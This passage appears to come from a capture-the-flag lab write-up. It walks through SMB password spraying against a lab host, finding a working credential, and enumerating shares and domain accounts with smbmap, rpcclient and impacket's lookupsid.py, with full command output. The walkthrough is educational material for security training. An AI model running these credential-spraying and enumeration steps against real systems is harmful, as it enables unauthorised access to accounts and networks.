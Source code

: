 ```
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
```

Then we get the result `SupportDesk\hazard:stealth1agent`

Let's come to smbmap and smbclient here and  I’ll also try to connect over WinRM with these creds, but it fails.
```
smbmap -H 10.10.10.149 -u hazard -p stealth1agent
Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

IPC$ is a share used for interprocess communications. Typically IPC$ is known for accecpting null (unauthenticated) sessions, but in this case, I needed credentials to read from it.

As I can read IPC$, I can connect with rpcclient:
```
root@kali# rpcclient -U 'hazard%stealth1agent' 10.10.10.149
rpcclient $> 
```
I can also look up accounts by SID:
```
 rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)

```

There’s an impacket tool, lookupsids.py, which does this faster and cleaner:
```
root@kali# lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
